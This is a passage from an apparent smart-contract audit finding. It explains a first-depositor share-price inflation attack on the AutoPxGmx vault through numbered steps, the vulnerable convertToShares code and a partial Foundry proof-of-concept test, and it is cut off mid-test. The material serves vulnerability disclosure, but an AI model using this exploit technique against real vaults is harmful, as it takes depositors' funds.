         function convertToShares(uint256 assets)
            public
            view
            virtual
            returns (uint256)
        {
            uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.
        
            return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
        }
    
4.  Since Alice is the first depositor (totalSupply is 0), she gets 1 share (1 wei);
5.  Alice then _sends_ 9999999999999999999 pxGMX tokens (10e18 - 1) to the vault;
6.  The price of 1 share is 10 pxGMX tokens now: Alice is the only depositor in the vault, she’s holding 1 wei of shares, and the balance of the pool is 10 pxGMX tokens;
7.  Bob deposits 19 pxGMX tokens and gets only 1 share due to the rounding in the `convertToShares` function: `19e18 * 1 / 10e18 == 1`;
8.  Alice redeems her share and gets a half of the deposited assets, 14.5 pxGMX tokens (less the withdrawal fee);
9.  Bob redeems his share and gets only 14.5 pxGMX (less the withdrawal fee), instead of the 19 pxGMX he deposited.

    // test/AutoPxGmx.t.sol
    function testSharePriceManipulation_AUDIT() external {
        address alice = address(0x31337);
        address bob = address(0x12345);
        vm.label(alice, "Alice");
        vm.label(bob, "Bob");
    
        // Resetting the withdrawal fee for cleaner amounts.
        autoPxGmx.setWithdrawalPenalty(0);
    
        vm.startPrank(address(pirexGmx));        
        pxGmx.mint(alice, 10e18);
        pxGmx.mint(bob, 19e18);
        vm.stopPrank();
    
        vm.startPrank(alice);
        pxGmx.approve(address(autoPxGmx), 1);
        // Alice deposits 1 wei of pxGMX and gets 1 wei of shares.
        autoPxGmx.deposit(1, alice);
        // Alice sends 10e18-1 of pxGMX and sets the price of 1 wei of shares to 10e18 pxGMX.
        pxGmx.transfer(address(autoPxGmx), 10e18-1);
        vm.stopPrank();
    
        vm.startPrank(bob);
        pxGmx.approve(address(autoPxGmx), 19e18);
        // Bob deposits 19e18 of pxGMX and gets 1 wei of shares due to rounding and the price manipulation.
        autoPxGmx.deposit(19e18, bob);
        vm.stopPrank();
    
        // Alice and Bob redeem their shares.           
        vm.prank(alice);
        autoPxGmx.redeem(1, alice, alice);
        vm.prank(bob);
        autoPxGmx.redeem(1, bob, bob);
    